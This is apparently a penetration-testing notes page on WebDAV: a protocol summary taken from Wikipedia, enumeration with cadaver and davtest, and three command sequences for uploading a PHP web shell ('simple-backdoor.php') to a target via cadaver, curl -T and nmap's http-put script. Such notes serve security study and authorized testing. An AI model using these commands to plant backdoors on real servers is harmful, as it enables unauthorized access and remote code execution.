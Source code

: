 # WebDAV

## WebDAV

WebDAV stands for "Web-based Distributed Authoring and Versioning". It is a set of extensions to the HTTP protocol which allows users to collaboratively edit and manage files on remote web servers.

**WebDAV** \(**Web Distributed Authoring and Versioning**\) is an extension of the [Hypertext Transfer Protocol](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol) \(HTTP\) that allows [clients](https://en.wikipedia.org/wiki/Web_client) to perform remote [Web](https://en.wikipedia.org/wiki/World_Wide_Web) content authoring operations. WebDAV is defined in [RFC](https://en.wikipedia.org/wiki/RFC_%28identifier%29) [4918](https://datatracker.ietf.org/doc/html/rfc4918) by a [working group](https://en.wikipedia.org/wiki/Working_group) of the [Internet Engineering Task Force](https://en.wikipedia.org/wiki/Internet_Engineering_Task_Force) \(IETF\).

The WebDAV protocol provides a framework for users to create, change and move documents on a [server](https://en.wikipedia.org/wiki/Server_%28computing%29). The most important features of the WebDAV protocol include the maintenance of properties about an author or modification date, [namespace](https://en.wikipedia.org/wiki/Namespace) management, collections, and overwrite protection. Maintenance of properties includes such things as the creation, removal, and querying of file information. Namespace management deals with the ability to copy and move web pages within a server's namespace. Collections deal with the creation, removal, and listing of various resources. Lastly, overwrite protection handles aspects related to the locking of files.

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WebDAV).

## Enumeration

### cadaver

 cadaver is a command-line [WebDAV](http://www.webdav.org/) client for Unix. It supports file upload, download, on-screen display, namespace operations \(move/copy\), collection creation and deletion, and locking operations. This text was extracted from [here](http://www.webdav.org/cadaver/).

```text
cadaver http://$ip
```

### davtest

{% embed url="https://github.com/cldrn/davtest" %}

DAVTest tests WebDAV-enabled servers by uploading test executable files, and then \(optionally\) uploading files that allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable.

DAVTest supports:

* Automatically send exploit files
* Automatic randomization of the directory to help hide files
* Send text files and try MOVE to the executable name
* Basic and Digest authorization
* Automatic clean-up of uploaded files
* Send an arbitrary file

```text
davtest -url http://10.10.10.10
```

## Exploit WebDav

If one method fails, another should be tested. If nothing works, Find a different exploit!

Method 1:

```text
davtest -url http://$target/webdav
cadaver http://$target/webdav
> put test.php
```

Method 2:

```text
cp /usr/share/webshells/php/simple-backdoor.php bytef.php
curl -T 'bytef.php' 'http://ip/webdav/'
```

Method 3:

```text
nmap -p 80 $ip_address –script http-put –script-args http-put.url=’/webdav/bytef.php’,http-put.file=’backdoor/bytef.php’
```


